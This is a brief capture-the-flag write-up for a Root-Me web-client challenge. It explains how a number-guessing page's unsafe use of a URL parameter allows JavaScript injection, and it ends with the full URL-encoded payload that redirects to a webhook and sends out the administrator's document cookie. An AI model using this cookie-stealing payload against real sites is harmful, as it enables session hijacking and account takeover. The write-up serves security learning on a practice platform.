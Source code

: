 
------

This challenge involved a random number guessing game which was pretty much impossible to beat (besides the point). The JavaScript was utilising information from the URL in order to change variables in a script.

Although we could not see the back end, i assumed it was accessing the DOM to get URL parameters and executing the number guessing in client-sided JavaScript.

Because it was accessing the DOM in an insecure way we could inject JavaScript and redirect the user to a webhook and steal the administrator cookie. 

![[Pasted image 20250511062657.png]]

The payload was:
```
http://challenge01.root-me.org/web-client/ch32/index.php?number=5%27%3Bwindow%2Elocation%2Ehref%20%3D%20%22https%3A%2F%2Fwebhook%2Esite%2F4a928330%2D5be9%2D46ba%2D82a5%2D37af9fa02135%3Fcookie%3D%22%20%2B%20document%2Ecookie%3B%20%2F%2F
```